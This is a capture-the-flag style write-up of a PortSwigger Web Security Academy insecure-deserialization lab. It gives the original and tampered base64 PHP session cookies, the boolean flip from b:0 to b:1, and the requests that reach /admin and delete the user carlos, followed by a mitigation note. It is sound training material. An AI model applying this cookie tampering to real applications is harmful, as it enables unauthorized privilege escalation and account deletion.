


# Lab 13: Insecure Deserialization - Modifying Serialized Objects

PortSwigger Web Security Academy - Insecure Deserialization Lab

## Vulnerability
Insecure Deserialization leading to Privilege Escalation

## Description
The application uses a serialized PHP object in the session cookie. The `admin` attribute is set to `b:0` (false), which can be tampered.

## Steps to Reproduce

**1. Intercept & Decode Cookie**
- Login as `wiener:peter`
- Session Cookie: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=`
- Base64 Decode -> `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`

**2. Modify to Admin**
- Change `b:0` to `b:1`
- Re-encode: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=`

**3. Exploit**
- Send request to `GET /admin` with modified cookie -> `200 OK`
- Delete user carlos: `GET /admin/delete?username=carlos` -> `302 Found`

## Proof of Concept

### Object-Proof - Admin Access & Deletion

### Object-Solved - Lab Solved

## Impact
Privilege Escalation to Admin, Account Deletion

## Mitigation
Use integrity checks (HMAC) on serialized objects or avoid serializing user-controlled data.
